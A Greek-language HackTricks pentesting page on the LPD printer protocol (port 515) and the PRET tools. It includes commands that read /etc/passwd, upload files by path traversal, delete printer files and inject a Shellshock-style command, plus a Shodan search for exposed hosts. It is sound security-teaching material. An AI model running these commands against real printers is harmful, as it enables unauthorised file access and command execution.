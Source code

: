 {{#include ../banners/hacktricks-training.md}}

### **Εισαγωγή στο Πρωτόκολλο LPD**

Στη δεκαετία του 1980, το **πρωτόκολλο Line Printer Daemon (LPD)** αναπτύχθηκε στο Berkeley Unix, το οποίο αργότερα τυποποιήθηκε μέσω του RFC1179. Αυτό το πρωτόκολλο λειτουργεί μέσω της θύρας 515/tcp, επιτρέποντας αλληλεπιδράσεις μέσω της εντολής `lpr`. Η ουσία της εκτύπωσης μέσω LPD περιλαμβάνει την αποστολή ενός **αρχείου ελέγχου** (για να καθορίσει λεπτομέρειες εργασίας και χρήστη) μαζί με ένα **αρχείο δεδομένων** (το οποίο περιέχει τις πληροφορίες εκτύπωσης). Ενώ το αρχείο ελέγχου επιτρέπει την επιλογή **διαφορετικών μορφών αρχείων** για το αρχείο δεδομένων, η διαχείριση αυτών των αρχείων καθορίζεται από την συγκεκριμένη υλοποίηση LPD. Μια ευρέως αναγνωρισμένη υλοποίηση για συστήματα τύπου Unix είναι το **LPRng**. Αξιοσημείωτο είναι ότι το πρωτόκολλο LPD μπορεί να εκμεταλλευτεί για την εκτέλεση **κακόβουλου PostScript** ή **PJL print jobs**.

### **Εργαλεία για Αλληλεπίδραση με Εκτυπωτές LPD**

[**PRET**](https://github.com/RUB-NDS/PRET) εισάγει δύο βασικά εργαλεία, το `lpdprint` και το `lpdtest`, προσφέροντας μια απλή μέθοδο για αλληλεπίδραση με εκτυπωτές συμβατούς με LPD. Αυτά τα εργαλεία επιτρέπουν μια σειρά ενεργειών από την εκτύπωση δεδομένων μέχρι τη χειρισμό αρχείων στον εκτυπωτή, όπως η λήψη, η αποστολή ή η διαγραφή:
```python
# To print a file to an LPD printer
lpdprint.py hostname filename
# To get a file from the printer
lpdtest.py hostname get /etc/passwd
# To upload a file to the printer
lpdtest.py hostname put ../../etc/passwd
# To remove a file from the printer
lpdtest.py hostname rm /some/file/on/printer
# To execute a command injection on the printer
lpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'
# To send a mail through the printer
lpdtest.py hostname mail lpdtest@mailhost.local
```
Για άτομα που ενδιαφέρονται να εξερευνήσουν περαιτέρω τον τομέα του **printer hacking**, μια ολοκληρωμένη πηγή μπορεί να βρεθεί εδώ: [**Hacking Printers**](http://hacking-printers.net/wiki/index.php/Main_Page).

# Shodan

- `port 515`

{{#include ../banners/hacktricks-training.md}}
